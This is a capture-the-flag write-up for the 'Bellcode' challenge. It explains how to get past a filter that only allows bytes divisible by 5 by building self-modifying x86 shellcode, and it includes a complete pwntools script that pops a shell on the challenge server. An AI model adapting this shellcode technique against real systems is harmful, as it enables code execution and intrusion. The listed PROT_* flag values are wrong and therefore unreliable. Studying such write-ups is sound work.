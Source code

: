 # Bellcode
## Do you like Taco Bell?
 - author: Eth007
 - solves: 37

The problem provides a single binary and a server to connect to. Throwing the binary into ghidra yields relatively simple code:
```c
undefined8 main(void) {
  byte bVar1;
  byte *local_18;
  
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,2,0);
  mmap(0xfac300,0x2000,7,0x21,-1,0);
  puts("What\'s your shellcode?");
  fgets(0xfac300,0x1000,stdin);
  local_18 = (char *)0xfac300;
  while( true ) {
    if ((byte *)0xfad2ff < local_18) {
      puts("OK. Running your shellcode now!");
      (*(code *)&DAT_00fac300)();
      return 0;
    }
    bVar1 = *local_18;
    if ((byte)(bVar1 + (char)((((uint)bVar1 * 0x21 + (uint)bVar1 * 8) * 5 >> 8 & 0xff) >> 2) * -5)
        != '\0') break;
    local_18 = local_18 + 1;
  }
  puts(&DAT_00102020);
                    /* WARNING: Subroutine does not return */
  exit(-1);
}
```

The code mmaps `2000h` bytes of memory at address `FAC300h` with the protection flags argument set to `7`. The mmap flags are defined as:
```c
PROT_NONE  = 0
PROT_READ  = 1 << 0
PROT_WRITE = 1 << 2
PROT_EXEC  = 1 << 3
```
The protection modes are selected by bitwise orring the options together. `7` is 0b111 which means the memory is readable, writable, and executable. After mmaping the memory the code reads `1000h` bytes into the buffer, and checks that every byte in the buffer passes this check:
```c
if ((byte)(bVar1 + (char)((((uint)bVar1 * 0x21 + (uint)bVar1 * 8) * 5 >> 8 & 0xff) >> 2) * -5)
        != '\0') break;
```
If all the bytes satisfy this condition then the shellcode is executed.

When working on restricted bytecode problems the first thing to usually do is build a list of the instructions that can be used. My favorite website for these kind of restricted shellcode problems is [ref.x86asm.net](http://ref.x86asm.net/coder64.html) because the instruction are sorted based on their opcodes. An important thing to take note of is [instruction encoding](https://wiki.osdev.org/X86-64_Instruction_Encoding). Instruction opcodes can be anywhere from 1 to 3 bytes long, and are used to identify the operation to be performed. The byte after the opcode is used to select the mode, src, and dst registers of the instruction.

The layout of the byte is:
![modrm](./static/modrm.png)
The values reg field of the modrm byte are defined as:
![registers](./static/registers.png)

`xor r/16/32/64 r/16/32/64` has an opcode of `33h`

`xor eax, eax` -> `33h 0b11_000_000`

`xor eax, dword [rax]` -> `33h 0b00_000_000`

`xor edx, dword [rcx]` -> `33h 0b00_010_001`

Back to the problem.
This if statement:
```c
if ((byte)(bVar1 + (char)((((uint)bVar1 * 0x21 + (uint)bVar1 * 8) * 5 >> 8 & 0xff) >> 2) * -5)
        != '\0') break;
```
is checking whether or not the current byte is a multiple of 5. If it is the loop continues, otherwise it breaks and does not execute the shellcode. Looking through the instructions that are a multiple of 5 I found
```x86asm
mov ecx, imm32  -> B9h imm32
xchg ecx, eax   -> 87h 0b11_001_000
inc dword [rax] -> FFh 0b11_000_000
xchg ebx, eax   -> 87h 0b11_000_011
inc ebx         -> FFh 0b11_000_011
```
using these instructions we can build a shellcode program that modifies itself into a different program. The idea is to load the address of the shellcode (`FAC300h` all the bytes in the address are multiples of 5 which is probably by design) into ecx, xchg it into eax. Then modify the shellcode into a program to pop a shell.

```python
from pwn import *

payload = open("payload.bin", "rb").read()

code = bytes()
end = bytes()

# address of shellcode buffer
base = 0xFAC300
# offset into the buffer where new code will be placed
offset = 0x500
addr = base + offset

# mov ecx, addr
code += b'\xB9' + p32(addr)
# xchg ecx, eax
code += b'\x87' + p8(0b11_001_000)

for byte in payload:
    # every byte must be a multiple of 5
    change = byte % 5
    # if the byte is not a multiple of 5
    # adjust it so that it becomes a multiple of 5
    if change != 0:
        byte -= change
    # add the new byte to the end payload
    end += p8(byte)
    # add code to modify the byte back to
    # the original value
    for _ in range(change):
        code += b'\xFF' + p8(0b00_000_000)
    # move on to the next byte
    code += b'\x87' + p8(0b11_000_011)    # xchg ebx, eax
    code += b'\xFF' + p8(0b11_000_011)    # inc ebx
    code += b'\x87' + p8(0b11_000_011)    # xchg ebx, eax

# pad out the code with fwaits
# fwait is effectively a nop
code = code.ljust(offset, b'\x9B')
# add on the end payload
code += end
# add newline
code += b'\x0A'

# sanity check
for byte in code:
    assert byte % 5 == 0

io = remote("bellcode.chal.imaginaryctf.org", 1337)

io.sendafter(b"\n", code)
io.interactive()
```

[![show](https://asciinema.org/a/510843.svg)](https://asciinema.org/a/510843?autoplay=1)

## Flag: ictf{did_mod_5_ring_a_bell_be00c3fa}
